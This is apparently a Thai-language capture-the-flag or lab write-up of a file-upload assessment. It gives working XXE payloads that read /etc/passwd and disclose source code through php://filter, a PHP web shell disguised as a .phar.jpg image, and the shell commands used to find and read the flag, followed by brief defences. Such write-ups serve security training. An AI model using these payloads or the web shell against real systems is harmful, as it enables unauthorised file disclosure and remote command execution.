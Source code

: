 สรุป Skills Assessment - File Upload Attacks
Extra Exercise

Vulnerability Summary:
จากการทดสอบระบบอัปโหลดไฟล์ พบว่า:
  - ตรวจเฉพาะ extension และ Content-Type
  - ไม่ตรวจ magic bytes ของไฟล์ (เช่น JPEG header 0xFFD8)
  - เปิด XML parser โดยไม่ได้ปิด ENTITY / DOCTYPE
  - ไม่ sanitize tag อันตราย (<script>, <!DOCTYPE>, <!ENTITY>)

XXE ทดสอบโดย File Read (/etc/passwd)
Payload:
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
  <svg>&xxe;</svg>
ระบบ render ข้อมูลจาก /etc/passwd  ยืนยันว่า XXE สำเร็จ

ต่อไปเราจะอ่านโค้ดของไฟล์ upload.php เพื่อดูว่ารูป/shell ถูกอัพไปไว้ที่ path ไหน
Payload:
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=upload.php"> ]>
  <svg>&xxe;</svg>
ชุดนี้คือ payload ที่ใช้อ่าน source code

จากการอ่านโค้ด:
  - ระบบตั้งชื่อไฟล์ตาม date('ymd')
  - ใช้ basename($_FILES['uploadFile']['name'])
  - ไม่ตรวจ magic bytes
  - ไม่ block .phar.jpg หรือ content ที่เป็น PHP
  - เก็บที่ path /contact/user_fxxxx_xxxx

Upload Shell
  Shell:
  <?php echo system($_GET['cmd']); ?>
  file ที่อัพขึ้นไปชื่อ name.jpg
  หลังจากจะอัพขึ้นจะได้ชื่อไฟล์ในระบบเป็น
  ymd = 250511
  เช่น ชื่อไฟล์ 250511_name.phar.jpg

จากนั้นเรียก shell
  /250511_cat.phar.jpeg?cmd=ls+/
  จะได้ list file ใน path root ออกมาแล้วมองหาไฟล์ flag

จากนั้นก็
  /250511_cat.phar.jpeg?cmd=cat+/flag_xxxxxx.txt

สรุปช่องโหว่
  XXE	Parser ไม่ปิด ENTITY / DOCTYPE
  Source Code Disclosure	ใช้ php://filter ผ่าน XXE
  ตรวจ MIME/ext แต่ไม่ตรวจเนื้อไฟล์

วิธีป้องกัน
  - ปิด ENTITY, DOCTYPE, external entities ใน XML parser
  - ตรวจ magic bytes ไม่เชื่อ MIME, ext อย่างเดียว
  - กรองชื่อไฟล์ / content ที่เป็น PHP








